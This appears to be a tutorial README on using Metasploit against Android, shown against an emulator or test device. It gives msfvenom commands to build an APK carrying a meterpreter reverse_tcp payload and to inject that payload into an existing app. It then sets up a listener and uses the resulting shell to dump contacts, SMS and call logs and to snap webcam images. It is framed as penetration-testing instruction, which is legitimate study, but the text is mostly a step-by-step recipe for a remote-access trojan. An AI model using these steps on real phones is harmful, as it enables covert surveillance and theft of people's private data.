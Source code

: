 # Metasploit For Android

## DESCRIPTION

The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing. It is owned by Boston, Massachusetts-based security company Rapid7.

Its best-known sub-project is the open source Metasploit Framework, a tool for developing and executing exploit code against a remote target machine.

## PREREQUISITES

1. Metasploit

2. adb(Android debug bridge)

3. Genymotion/Android device

Exploitation to get an android reverse shell
Connect to the remote target device(genymotion/android) using adb

![1](Images/Documentations/Metasploit_for_Android/1.jpg)

1) Steps to generate an apk with the reverse_tcp payload
Go to ‘opt/metasploit-framework/bin’ and enter the following command to generate an apk

$ ./msfvenom -p android/meterpreter/reverse_tcp LHOST=<localhost ip> LPORT=4444 -o <destination path/test.apk>

!img
!img

Install the apk generated on the target device(genymotion/android)

!img
!img

Go to ‘opt/metasploit-framework/bin’ and follow the steps to get the reverse shell

$ ./msfconsole

!img

$ use exploit/multi/handler

!img


$ set payload android/meterpreter/reverse_tcp

!img

$ show options

!img

$ set LHOST <localhost ip>

!img

$ exploit ‘or’ run

!img

Click on the test.apk application in the remote target device(genymotion/android) to get the reverse shell

!img

$ help ‘or’ ?

!img

$ dump_contacts

!img

$ dump_sms

!img

$ dump_calllog

!img

Go to the ‘metasploit-framework’ folder to get the dumps

!img

$ cat <calllog.txt>

!img

$ cat <contacts.txt>

!img

$ cat <sms.txt>

!img

Commands for webcam

$ webcam_list

$ webcam_snap 1 ‘or’ 2

!img

!img

2) Steps to inject reverse_tcp payload in an existing app(diva-beta.apk)

Go to ‘opt/metasploit-framework/bin’ and enter the following command

$ ./msfvenom -x <apk path/apkname.apk> -p android/meterpreter/reverse_tcp LHOST=<localhost ip> LPORT=4444 -o <destination path/test.apk>

!img

Install the app in the device and repeat the msfconsole steps as shown earlier to get the reverse shell.

## Extra Commands for metasploit

$ show exploits- (Get all exploits till date)

$ search <any random keyword>

(ex- search android- to get all exploits related to android)

$ info <exploit>

Thanks for reading!





